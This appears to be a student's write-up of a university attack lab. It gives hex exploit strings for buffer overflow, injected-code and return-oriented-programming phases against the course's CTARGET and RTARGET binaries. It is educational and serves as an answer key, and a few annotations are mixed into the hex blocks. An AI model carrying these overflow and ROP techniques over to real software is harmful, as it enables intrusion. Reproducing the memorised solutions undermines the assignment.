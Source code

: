 #Things to know:
*“Overrunning the buffer typically causes the program state to be corrupted, leading to a memory access error. Your task is to be more clever with the strings you feed CTARGET and RTARGET so that they do more interesting things. These are called exploit strings.”

* if you want to create a byte with a hex value of 0, you need to write it as 00
* Put your answer backward so like 401020  -> 20 10 40
* Pre allocating memory, subtract rsp
* Assigning value to rsp, adds to rsp
* Code Injection vs Return oriented programming

# Phase 1:
* Figuring out How big the buffer by looking at
* get buff
* sub    $0x38,%rsp , 0x38 = 56
* Overflow the buffer and rewrite the return address by redirecting it to the address of touch1

```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00  //56  zero/padding
9c 12 40 00 00 00 00 00 //address of touch1
```

# Phase 2:
* Look at the stack(it’ll help you understand)
* (Look at hints in the handout) store your cookie into rdi so you can pass it as an argument
mov    $0x14f987af,%rdi
* Than you are going to want to push the address of touch2 and have a return(in a .d file)
pushq  $0x4012c8
retq
You’ll get the byte representation of the assembly code and that’s what you’ll use in your answer.
* If you run getbuff(hence set a breakpoint at getbuf to see what’s happening) and run it with your answer and check what’s in your stack (do x/20x $rsp ) you’ll see that your cookie and push touch2 at first are just passed in as a string so at first it doesn’t matter that much. But then when you get to rsp
* The rsp address is at the top of the stack where your instructions are hence they’ll start being implemented, where you pass the cookie as an argument to touch2.


```
48 c7 c7 af 87 f9 14 68 //cookie
c8 12 40 00 c3 00 00 00 //push touch2
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 0//0 00
78 9c 63 55 00 00 00 00 //rsp hex after callq //address of first machine instruction
//overwrite with our first injected code
```

# Phase 3:
* Convert cookie into a string
* If it is stored in buf, then the next hexmatch may overwrite its stack, but the parent stack of buf is safe. We put the address of touch3 on the top of the parent stack.
* Your injected code should set register %rdi to the address of this string.
* “When functions hexmatch and strncmp are called, they push data onto the stack, overwriting portions of memory that held the buffer used by getbuf. As a result, you will need to be careful where you place the string representation of your cookie.”
* Rsp from phase 2 is the first thing we read which sends us to our instruction and there it grabs the cookie.

```
48 c7 c7 b8 9c 63 55 68  //  the return address should be rsp from phase 2 +0x40(64 decimal) into rdi is where the address of the string (the location where the code execution address is saved) //moving the cookie to rdi(this is where the cookie was stored previously, past the overflow point at the end of the buffer) plus buffer size+0x8 for the return address and another 0x8 for touch 3
d9 13 40 00 c3 00 00 00 //address of touch3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 9c 63 55 00 00 00 00 //rsp from phase 2//points back to the beginning where your instructions are
31 34 66 39 38 37 61 66 // cookie turn into a string
```


# Phase 4:
* the strategy is to find several instructions/byte sequence in the existing code, these instructions are followed by instructions ret(gadgets)
* Each return is equivalent to jumping from one gadget to another, and then doing so through the constant jump to complete the operation we want.
* Similar logic as phase 2 but we are using return-oriented programming
* Your first gadget will be a popq rax(58),it will pop data from the stack
* Then put your cookie address and store it in rax thanks to gadget 1, then put the cookie into edi (hence mov rax,edi is your second gadget(48 89 c7 c3))
* And then just past the address of touch2
```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00
7e 14 40 00 00 00 00 00 //gadget 1 popq rax  whatever was put at the top of the stack put into rax,//overwriting the return address with a gadget(that’s how it jumps into the stack)
When it gets a return command it looks at the return address and then it moves the stack pointer down .A return address is like popping. The gadget includes a return and then goes down to the cookie(rsp goes down to the cookie)
af 87 f9 14 00 00 00 00 //cookie Address , put cookie where rax is (stored in rax)
a6 14 40 00 00 00 00 00 //gadget 2 mov rax,edi // there is a c3 at that address
c8 12 40 00 00 00 00 00 //touch2
```


# Phase 5:
* From the moment we move the address of rsp to rax till the address of cookie, there are 9 addresses which are 8 gadgets and the address of touch3, exclude the value read in to rax and each address has 8 bytes.The gap must be 72 bytes, which is equal to the address of 0x48.
* The solution for this is to use ROP (Return Oriented Programming), what ROP does is that since we can't execute our own code, we will look for instructions in the code that do the same thing as what we want. These are called gadgets and by combining these gadgets, we will be able to perform our exploit.
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
da 14 40 00 00 00 00 00 //Mov %rsp, %rax
a6 14 40 00 00 00 00 00//Mov %rax, %rdi
99 14 40 00 00 00 00 00 //pop rax //pop data from the stack
48 00 00 00 00 00 00 00  // 9*8 = 72 =0x48 //6*8  to set up eax into esi
02 15 40 00 00 00 00 00//Movl %eax, %ecx   //89 c1
4b 15 40 00 00 00 00 00//Movl %ecx, %edx //89 ca
1d 15 40 00 00 00 00 00 //Movl %edx, %esi  //89 d6
b1 14 40 00 00 00 00 00//Lea (%rdi, %rsi, 1), %rax putting cookie into rax
a6 14 40 00 00 00 00 00//Mov %rax, %rdi
d9 13 40 00 00 00 00 00//Touch3's address
31 34 66 39 38 37 61 66//Cookie string
```
The first thing to do is to get the current %rsp address and use it to find the string.
Add this address to the offset, here is the function 0x48 just used add_xy
Find a way to put the above value into the %rdi
Follow the previous ret instruction, return touch3 the address
Store the string, for the sake of convenience, we put it to the end


Return Oriented programming:

Performing code-injection attacks on program RTARGET is much more difficult than it is for CTARGET, because it uses two techniques to thwart such attacks:
It uses randomization so that the stack positions differ from one run to another. This makes it impossible to determine where your injected code will be located.
It marks the section of memory holding the stack as nonexecutable, so even if you could set the program counter to the start of your injected code, the program would fail with a segmentation fault.
Fortunately, clever people have devised strategies for getting useful things done in a program by executing existing code, rather than injecting new code. The most general form of this is referred to as return-oriented programming (ROP) [1, 2].
The strategy with ROP is to identify byte sequences within an existing program that consist of one or more instructions followed by the instruction ret. Such a segment is referred to as a gadget. Figure 2 illustrates how the stack can be set up to execute a sequence of n gadgets. In this figure, the stack contains a sequence of gadget addresses. Each gadget consists of a series of instruction bytes, with the final one being 0xc3, encoding the ret instruction. When the program executes a ret instruction starting with this configuration, it will initiate a chain of gadget executions, with the ret instruction at the end of each gadget causing the program to jump to the beginning of the next.
A gadget can make use of code corresponding to assembly-language statements generated by the compiler, especially ones at the ends of functions. In practice, there may be some useful gadgets of this form, but not enough to implement many important operations. For example, it is highly unlikely that a compiled function would have popq %rdi as its last instruction before ret. Fortunately, with a byte-oriented instruction set, such as x86-64, a gadget can often be found by extracting patterns from other parts of the instruction byte sequence.
